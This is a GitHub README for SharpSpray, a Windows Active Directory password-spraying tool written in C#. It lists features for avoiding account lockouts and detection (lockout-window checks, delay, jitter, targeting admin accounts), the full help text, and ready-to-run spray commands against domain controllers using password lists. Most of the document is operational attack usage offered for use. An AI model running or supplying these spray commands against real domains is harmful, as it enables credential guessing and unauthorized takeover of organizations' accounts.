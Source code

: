 <div align="center">
    <h1>SharpSpray</h1>
    <br/>
</div>

SharpSpray is a Windows domain password spraying tool written in .NET C#.

## Introduction

SharpSpray is a C# port of [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) with enhanced and extra capabilities. This tool uses LDAP Protocol to communicate with the Domain active directory services.

### Features
- Can operate from inside and outside a domain context.
- Exclude domain disabled accounts from the spraying.
- Auto gathers domain users from the Active directory.
- Avoid potential lockouts by excluding accounts within one attempt of locking out.
- Avoid potential lockouts by auto-gathering domain lockout observation window settings.
- Compatible with Domain Fine-Grained Password policies.
- Custom LDAP filter for users, e.g. (description=*admin*)
- Delay in seconds between each authentication attempt.
- Jitter between each authentication attempt.
- Support a single password or a list of passwords.
- Single file Console Application.


## Usage

### Command Line Args
```
> SharpSpray.exe --help

  -v, --Verbose       (Default: false) Show verbose messages.
  -u                  (Optional) Username list file path. This will be
                      automatically fetched from the active directory if not
                      specified.
  -p                  A single password that will be used to perform the
                      password spray.
  -k, --pl            (Optional) Password List file path.
  -d                  (Group: OutsideDomain) (Optional) Specify a domain name.
  -m                  (Group: OutsideDomain) (Default: false) Use this option if
                      spraying from a host located outside the Domain context.
  -q, --dc-ip         (Group: OutsideDomain) Required when the option 'm'
                      OutsideDomain is checked
  -x                  (Default: false) Attempts to exclude disabled accounts
                      from the user list (Not supported with the option -m)
  -z                  (Default: false) Exclude accounts within 1 attempt of
                      locking out (Not supported with the option -m)
  -f                  Custom LDAP filter for users, e.g. "(description=*admin*)"
  -o                  A file to output the results to.
  -w                  (Group: OutsideDomain) (Default: 32) Do not relay on
                      domain lockout observation window settings and use this
                      specific value. (Default 32 minute)
  -s                  Delay in seconds between each authentication attempt.
  -j
  --Force             Force start without asking for confirmation.
  --get-users-list    Get the domain users list from the active directory.
  --show-examples     Get domain users list from the active directory.
  --show-args         Show command line args
  --help              Display this help screen.
```

### Usage Examples
```
SharpSpray.exe -v -x -z --pl password.txt
SharpSpray.exe -x -z -u users.txt --pl psswd.txt
SharpSpray.exe -x -z -u users.txt -p Passw0rd!
SharpSpray.exe -x -z -s 3 -j 1 -u users.txt -k psswd.txt -o sprayed.txt

SharpSpray.exe -w 32 -d DC-1.local --dc-ip 10.10.20.20 -u users.txt --pl psswd.txt
SharpSpray.exe -w 32 -s 3 -j 1 -d DC-1.local --dc-ip 10.10.20.20 -u users.txt --pl psswd.txt

SharpSpray.exe --get-users-list
SharpSpray.exe --get-users-list > users.txt
PS> .\SharpSpray.exe --get-users-list | Out-File -Encoding ascii users.txt
```

### Fetching only the users list from the Active Directory

The following command will fetch domain users and prints the list to the console.

```
SharpSpray.exe -x -z --get-users-list

-x: Exclude disabled accounts from the user list.
-z: Exclude accounts within 1 attempt of locking out.
```




### Meta
[SharpSpray | Active Directory Password Spraying Tool](https://c99.sh/sharpspray-active-directory-password-spraying-tool/)